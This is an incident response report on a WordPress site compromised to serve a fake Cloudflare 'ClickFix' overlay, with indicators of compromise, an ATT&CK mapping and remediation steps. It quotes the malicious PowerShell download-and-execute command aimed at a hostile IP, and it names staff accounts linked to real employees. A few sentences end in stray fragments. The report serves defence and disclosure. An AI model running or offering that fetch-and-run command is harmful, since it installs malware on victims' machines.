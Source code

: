 ## Incident Response Report – Breakers FWB Website Compromise
*7 Sept 2025, K. Tonkin & R. Halim*

## Executive Summary
On September 5, 2025, the Breakers FWB website (```https://www.breakersfwb.com```) was found to be compromised and actively serving a ClickFix-style social engineering campaign. Malicious JavaScript was injected into the site, overlaying a fake Cloudflare “verification” page hosted on ```ncloud.icu``` via a dynamically loaded <iframe>. This page mimicked legitimate security checks but was designed to exploit users’ instinct to “fix” perceived issues—hallmarks of the ClickFix technique.

The fraudulent overlay instructed users to press Win+R and Ctrl+V to paste a PowerShell command copied to their clipboard: ```powershell -w h -nop -c iex(iwr -Uri 155[.]94[.]155[.]25 -UseBasicParsing)``` This command downloaded additional payloads from ```155.94.155.25```, consistent with ClickFix campaigns that rely on human interaction to bypass automated defenses

Investigation showed evidence of:
- Server-side injection of obfuscated JavaScript redirectors.
- External calls to malicious domains (getfix.win, ncloud.icu).
- Exposure of WordPress user accounts (admin, ethanwhited, barbara).
- SEO spam posts created Sept 3–4, 2025, unrelated to Breakers’ business.

The compromise likely originated from vulnerable WordPress plugins or weak credentials, and the site was repurposed as a malware distribution platform.ntials.

---

## Indicators of Compromise (IOCs)

| Type      | Value / Indicator                                                                 | Notes |
|-----------|------------------------------------------------------------------------------------|-------|
| Domain    | `getfix.win`                                                                      | Primary malicious script delivery |
| Domain    | `ncloud.icu`                                                                      | Iframe redirector domain |
| Domain    | `2no.co`                                                                          | Used in injected iframe chain |
| IP        | `155.94.155.25`                                                                   | PowerShell download host |
| Path      | `/wp-json/wp/v2/users`                                                            | Publicly exposes WordPress user list |
| Script    | Malicious `<script>` block in `<body>` calling `getfix.win/jsrepo?...`             | Injected server-side |
| Spam URLs | `/island-blog/casino-site-payment-methods-in-canada...` (and similar gambling posts)| Created Sept 3–5, 2025 |

---

## MITRE ATT&CK Mapping

| ATT&CK Tactic      | Technique ID | Technique Name                                | Observed Example |
|--------------------|--------------|-----------------------------------------------|------------------|
| Initial Access     | T1190        | Exploit Public-Facing Application             | Likely WordPress plugin exploit (Photo Gallery, Gravity Forms, Streamline Core) |
| Execution          | T1059.001    | Command and Scripting Interpreter: PowerShell | Fake Cloudflare page copied malicious command to clipboard |
| Persistence        | T1078        | Valid Accounts                                | WordPress users ```admin```, ```ethanwhited```, ```barbara```, possibly others |
| Defense Evasion    | T1027        | Obfuscated Files or Information               | Obfuscated injected JavaScript (```_0x32f8cc```, ```cxhrz``` loops) |
| Credential Access  | T1110        | Brute Force                                   | Risk to exposed ```admin``` account |
| Impact             | T1499        | Endpoint Denial of Service                    | Browser crashpad / spawned processes observed in sandbox |

---

## Compromised / Suspicious User Accounts

During investigation, several WordPress accounts were discovered that appear linked to real Breakers staff as well as a visible administrator account. This dramatically increases risk, since attackers leveraging these accounts could blend in with normal operations.

| User ID | Username       | Observations                                                                 |
|---------|----------------|-------------------------------------------------------------------------------|
| 1       | ```admin```        | Default WordPress admin, publicly exposed via ```/wp-json/wp/v2/users```. Target for brute force. Should be disabled. |
| 8       | ```barbara```      | Barbara Martens, listed on LinkedIn as General Manager at The Breakers. Active author profile at ```/island-blog/author/barbara/```. A high-privilege staff account, very likely targeted or compromised. |
| 12      | ```ethanwhited```  | Ethan Whited, listed on LinkedIn as Rental Manager at The Breakers. Legitimate staff identity, may have been abused to publish content or perform admin actions. |

### Risks
- Credential compromise: Attackers may have obtained staff credentials via phishing, reuse, or brute-force.  
- Abuse of legitimacy: Posts created under real employee names or administrators look legitimate to visitors.  
- Persistence: Even if malicious code is cleaned, attackers could return using valid staff logins.  

### Recommended Actions
1. Immediately reset passwords for all WordPress accounts (staff + admin).  
2. Audit user activity (login IPs, post creation, plugin changes) for ```admin```, ```barbara```, and ```ethanwhited```.  
3. Disable the default ```admin``` account permanently.  
4. Require 2FA for staff (Barbara, Ethan, etc).  
5. Review if staff email accounts (O365/Gmail) show signs of compromise. If email accounts exist on a personal device, verifiy integrity of personal accounts as well.

---

## Root Cause Analysis
- Entry vector is not fully confirmed.  
- Most probable: exploitation of a vulnerable plugin (Photo Gallery, Gravity Forms, or Streamline Core).  
- Once access was gained, attackers injected malicious JavaScript into theme/plugin files or database options.  
- Attackers also published SEO spam posts to increase persistence and site abuse value.  
- Exposed ```/wp-json``` API revealed usernames, increasing brute force risk.  

---

## Recommended Actions

### Immediate Containment
- Take site offline or place in maintenance mode.  
- Block IOCs (```getfix.win```, ```ncloud.icu```, ```2no.co```, ```155.94.155.25```) at firewall, DNS, and WAF.  
- Export WordPress database and filesystem for forensic preservation.  

### Eradication
- Search and remove injected ```<script>``` calls (especially ```getfix.win``` and ```ncloud.icu```) in:
  - Theme files ( such as ```header.php```, ```footer.php```, ```functions.php```, and more)  
  - WordPress options table (```wp_options``` → ```siteurl```, ```home```, or injected widgets)  
- Delete all spam posts/pages.  
- Remove or disable the ```admin``` account. Confirm no hidden users exist.  
- Restore from a pre-Sept 2, 2025 backup if possible.  
- Update WordPress core and all plugins.  

### Recovery & Hardening
- Reset all credentials (WP Admins, hosting panel, SFTP, SSH, database).  
- Restrict uploads: disallow ```.php``` execution in ```wp-content/uploads/```.  
- Enforce a strict Content-Security-Policy (CSP) to block unauthorized scripts.  
- Enable WAF / IDS (WP Engine + Cloudflare).  
- Monitor WordPress logs (Stream plugin, server access logs) for suspicious logins.  
- Enable 2FA for all user accounts.  

---

## Conclusion
This incident reflects a textbook implementation of the ClickFix social engineering technique. The attackers exploited Breakers FWB’s WordPress vulnerabilities to inject malicious scripts and launch a deceptive “verification” overlay. This overlay mimicked legitimate services and instructed users to run clipboard-injected PowerShell commands—an approach designed to bypass automated defenses by relying on human interaction1.

The site was not merely defaced—it was weaponized as a malware distribution hub. Remediation must include full restoration, credential resets, and hardening against reinfection. Ongoing monitoring and user education are critical to prevent future ClickFix-style attacks.not fully remediated.

---

## References
https://www.microsoft.com/en-us/security/blog/2025/08/21/think-before-you-clickfix-analyzing-the-clickfix-social-engineering-technique/

https://www.fortinet.com/blog/threat-research/clickfix-to-command-a-full-powershell-attack-chain

https://www.hhs.gov/sites/default/files/clickfix-attacks-sector-alert-tlpclear.pdf

